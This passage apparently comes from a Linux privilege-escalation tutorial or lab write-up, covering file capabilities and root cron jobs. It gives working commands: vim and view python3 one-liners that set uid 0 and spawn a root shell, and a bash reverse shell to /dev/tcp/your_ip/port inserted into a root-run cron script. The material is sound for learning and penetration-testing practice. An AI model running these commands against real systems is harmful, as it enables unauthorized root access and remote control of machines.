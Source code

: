 ## Privilege escalation using Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is "Capabilities". Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.

We can use the ```getcap``` tool to list enabled capabilities.

```bash
$getcap -r / 2>/dev/null
```

We can see that there are 2 binaries vim and view are available with capabilities and we can exploit them with the command as

```bash
$./vim -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

And for view

```bash
$view -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Privilege Escalation with cron jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.

The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (Cron tables) to see the next time and date the task will run. Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you cna expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.

Any user can read the file keeping system-wide cron jobs under ```/etc/crontab```

```bash
* * * * * root antivirus.sh
```

means the script antivirus.sh script will run every min. We can see that there are 2 script files we can use in our favor. (i.e. backup.sh and antivirus.sh) In any of the files we need to add a line to be able to get a reverse shell to the system with the command

```bash
bash -i >& /dev/tcp/your_ip/port 0>&1
```

You must check if the file has execute permission enabled or not. In our case the backup.sh doesn't have execute permission so we need to add the execute permission to it by running the command.
